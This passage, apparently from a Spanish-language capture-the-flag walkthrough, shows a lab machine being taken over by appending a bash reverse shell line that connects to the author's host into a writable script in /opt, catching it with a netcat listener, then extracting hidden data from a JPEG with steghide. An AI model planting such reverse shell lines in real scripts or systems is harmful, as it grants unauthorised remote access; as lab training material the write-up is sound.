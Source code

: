 El script en cuestión es */opt/log_cleaner.sh*. No tenemos permisos para ejecutarlo directamente, pero tenemos permisos para su modificación.

```shell
pedro@34e0296f5c5d:~$ ls -l /opt/
total 4.0K
-rwxrw-rw- 1 valentina valentina 30 Feb  9 01:47 log_cleaner.sh
```

Añadimos la siguiente línea al script para entablarnos una **reverse shell**. En mi caso, la dirección IP es la **192.168.1.12**.

```shell
bash -i >& /dev/tcp/192.168.1.12/443 0>&1
```

Y esperamos con el puerto 443 abierto en nuestro host para entablar conexión:

```shell
nc -lp 443
```

Esperamos, y obtenemos la reverse shell.

```shell
valentina@34e0296f5c5d:~$ whoami
valentina
```

## Escalada de privilegios
--------------------------

Listamos el contenido de /home/valentina y vemos que además de la flag, existe una imagen .jpeg.

```shell
valentina@34e0296f5c5d:~$ ls
fl4g.txt  profile_picture.jpeg
```

Transferimos el archivo a nuestro host y utilizamos **steghide** para verificar si se ha aplicando esteganografía. Nos pide una *passphrase*, pero no proporcionamos ninguna, sólo presionamos *Enter*. En los resultados observamos que existe un archivo incrustado, el cual es *secret.txt*.

```shell
steghide info profile_picture.jpeg
----------------------------------
"profile_picture.jpeg":
  format: jpeg
  capacity: 2.4 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secret.txt":
    size: 7.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Ahora, sabiendo que hay un archivo .txt en la imagen, lo extraemos.
